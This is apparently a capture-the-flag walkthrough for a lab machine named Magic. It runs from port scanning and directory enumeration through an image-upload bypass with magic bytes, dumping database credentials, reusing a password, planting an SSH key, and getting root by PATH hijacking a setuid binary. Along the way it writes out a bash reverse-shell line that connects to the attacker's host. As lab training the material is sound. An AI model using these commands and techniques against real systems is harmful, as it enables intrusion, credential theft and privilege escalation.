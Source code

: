 ## Reconnaissance
### Nmap Enumeration
- We pass the nmap commands (with output):
```bash
nmap -sC -sV -vv -p- 10.10.10.185
nmap -sU --top-ports=10 -vv 10.10.10.185

---OUTPUT-TCP---
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
---------------------------------------------------------------------------------
---OUTPUT-UDP---
445/udp  open|filtered microsoft-ds no-response
631/udp  open|filtered ipp          no-response
```
### Directory Search
- gobuster :
```bash
gobuster dir -u http://magic.htb/ dns --wordlist /usr/share/wordlists/dirb/common.txt



---OUTPUT---
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.sh_history          (Status: 403) [Size: 274]
/assets               (Status: 301) [Size: 307] [--> http://magic.htb/assets/]
/images               (Status: 301) [Size: 307] [--> http://magic.htb/images/]
/index.php            (Status: 200) [Size: 4053]
/server-status        (Status: 403) [Size: 274]
Progress: 4614 / 4615 (99.98%)

```
- dirsearch :
```bash
dirsearch -u 10.10.10.185

---OUTPUT---
[11:03:59] 301 -  307B  - /assets  ->  http://magic.htb/assets/             
[11:04:11] 301 -  307B  - /images  ->  http://magic.htb/images/             
[11:04:14] 200 -    1KB - /login.php                                        
[11:04:15] 302 -    0B  - /logout.php  ->  index.php                        
[11:04:35] 302 -    3KB - /upload.php  ->  login.php                        
```
- ffuf : no output
- gobuster second search with images directory
```bash
gobuster dir -u http://magic.htb/images/ dns --wordlist /usr/share/wordlists/dirb/big.txt

---OUTPUT---
/.htpasswd        (Status: 403) [Size: 274]
/.htaccess        (Status: 403) [Size: 274]
/uploads          (Status: 301) [Size: 315] [-->http://magic.htb/images/uploads/]
```
- We access http://magic.htb/images/uploads/mime_bypass.php.png with netcat listener listening.
- we bypassed checs with magic bytes and adding .png in the end
- We gain reverse shell as www-data.
- get better shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
local_machine > stty raw -echo;fg
Enter+Enter
```
- Enumerating:
```bash
cd /var/www/Magic
cat db.php5
ps -ex

---OUTPUT-1---
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword)
--------
---OUTPUT-2---
  PID TTY      STAT   TIME COMMAND
 1821 ?        S      0:01 /usr/sbin/apache2 -k start
 1859 ?        R      0:01 /usr/sbin/apache2 -k start
 1867 ?        S      0:01 /usr/sbin/apache2 -k start
 1915 ?        S      0:00 /usr/sbin/apache2 -k start
 1922 ?        S      0:00 /usr/sbin/apache2 -k start
 1926 ?        S      0:00 /usr/sbin/apache2 -k start
 2100 ?        S      0:00 /usr/sbin/apache2 -k start
 2101 ?        S      0:00 /usr/sbin/apache2 -k start
 2102 ?        S      0:00 /usr/sbin/apache2 -k start
 2103 ?        S      0:00 /usr/sbin/apache2 -k start
 2108 ?        S      0:00 sh -c uname -a; w; id; /bin/sh -i APACHE_RUN_DIR=/var
 2112 ?        S      0:00 /bin/sh -i APACHE_RUN_DIR=/var/run/apache2 APACHE_PID
 2115 ?        S      0:00 python3 -c import pty;pty.spawn("/bin/bash") APACHE_R
 2116 pts/0    Ss     0:00 /bin/bash APACHE_RUN_DIR=/var/run/apache2 APACHE_PID_
 2216 pts/0    R+     0:00 ps -ex APACHE_LOG_DIR=/var/log/apache2 LANG=C INVOCAT
```
- MySQL Enumeration:
```bash
mysql doesnt work
mysqldump -u theseus -p Magic >dump.sql
(Password:iamkingtheseus)
cat dump.sql

---OUTPUT---
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
- We find creds:
- Username : admin
- Password: Th3s3usW4sK1ng
**NOTE: We can also use sqlmap here but didn't use for OSCP training. Also it might be a bit slow judging from IPPSecs video**
- We try to login as theseus with these credentials:
```bash
su theseus
Password: Th3s3usW4sK1ng
```
- We gain access as theseus.
- Create ssh link:
```bash
---LOCAL-MACHINE---
ssh-keygen -f theseus 
cat theseus.pub > Copy key
--------------------------------------------------------------------------------
---TARGET-MACHINE---
cd /home/theseus/.ssh
echo "<public_key>" > authorized_keys
--------------------------------------------------------------------------------
---LOCAL-MACHINE---
chmod 0600 theseus
ssh -i theseus theseus@magic.htb
```
## Privilege Escalation
- Enumeration :
```bash
sudo -l # cannot use
uname -a # Nothing interesting
find / -type f -perm -4000 2>/dev/null # find files with setuid privileges

---OUTPUT-OF-FIND-SETUID-FILES---
/bin/sysinfo
```
- we pass :
```bash
strace -f /bin/sysinfo #to check system calls in a binary
```
- We see an execve command
- we search for other execve commands (Ctrl+Shift+F)
```bash
execve("/bin/sh", ["sh", "-c", "lshw -short"], 0x7ffd9dc1c1b8 /* 18 vars */ <unfinished ...
execve("/bin/sh", ["sh", "-c", "fdisk -l"], 0x7ffd9dc1c1b8 /* 18 vars */) = 0
execve("/bin/sh", ["sh", "-c", "free -h"], 0x7ffd9dc1c1b8 /* 18 vars */ <unfinished ...>
```
- **As we can see some of these execve commands don't use absolute path**
- We can create a file with our bash reverse shell script with the same name as one of the above (I've tried free and lshw, both worked)
```bash
vi free

---INPUT---
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/9999 0>&1
```
- Make it an executable and then change the $PATH variable location to the current directory and execute the sysinfo binary (with netcat listener listening)
```bash
chmod +x free
echo $PATH : 
export PATH=$(pwd):$PATH

---TO-CHECK---
---Have-Netcat-listener-waiting---
./free # if connects code is fine
------
---EXPLOIT---
/bin/sysinfo # With Netcat listener listening
```
- We gain root shell.
- Can add authorzed_key to this ssh folder too for ssh access.
